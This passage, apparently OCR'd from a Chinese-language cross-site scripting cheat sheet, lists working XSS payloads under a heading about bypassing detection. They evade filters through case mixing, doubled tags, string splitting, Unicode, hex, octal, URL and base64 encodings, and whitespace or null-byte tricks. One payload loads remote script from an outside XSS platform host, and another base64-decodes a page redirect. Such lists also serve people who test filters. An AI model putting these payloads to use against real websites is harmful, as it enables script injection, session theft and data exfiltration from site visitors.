 ```html
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
   <script>alert(1)</script>
</svg>
```

* 绕过检测

```html
<Script>alert(1)</Script> // 使用大小写绕过。
<sscriptcript>alert(1)</sscriptcript> // 使用双写绕过。
// 利用拼接。
<script>top["al"+"ert"](1)</script>
<video/src/onerror=top[8680439..toString(30)](1);>
<video/src/onerror=top[11189117..toString(32)](1);>
<video/src/onerror=top.alert(1);>
<video/src/onerror=window.alert(1);>
<video/src/onerror=top[`al`%2B`ert`](1);>
<video/src/onerror=self[`al`%2B`ert`](1);>
<video/src/onerror=parent[`al`%2B`ert`](1);>
<video/src/onerror=window[`al`%2B`ert`](1);>
<video/src/onerror=frames[`al`%2B`ert`](1);>
<video/src/onerror=content[`al`%2B`ert`](1);>
<iframe onload=location='javascri'.concat('pt:aler','t(1)')>
<img src onerror=appendChild(createElement(`script`)).src=`https://x`.concat(`sspt.co`,`m/TuK26d`)>
<img src=x onerror="a=aler;b=t;c='(1);';eval(a+b+c)">
// 使用字符混淆。
<<script>alert("xss");//<</script> //使用字符混淆。
// 使用 Unicode 编码，在 JavaScript 中使用 \u。
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">
<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">
// url 编码绕过。
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
// 使用 ASCII 码。
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">
// Hex 绕过。
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
// 八进制绕过。
<img src=x onerror=alert('\170\163\163')>
// base64 绕过，atob 用于解密 base64。
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
// 使用反引号代替单引号、双引号。
<img src="x" onerror=alert(``xss``);>
// 使用 throw 代替括号。
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
// 使用开口标签。
<!---<script>alert(1)</script-->
// 利用 Tab。
<img src="java	script:alert(1)">
// 利用换行。
<img src="java&#x0A;script:alert(1)">
// 利用回车。
<img src="java&#x0D;script:alert(1)">
// 利用空字符。
<img src="java\0script:alert(1)">
// 利用非字母非数字。
<body onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(“XSS”)>
// 使用 vbscript，asp 网站。
<img src=’vbscript:msgbox(1)’>
// 引用，使用 jjencode 或者 jsfuck。
```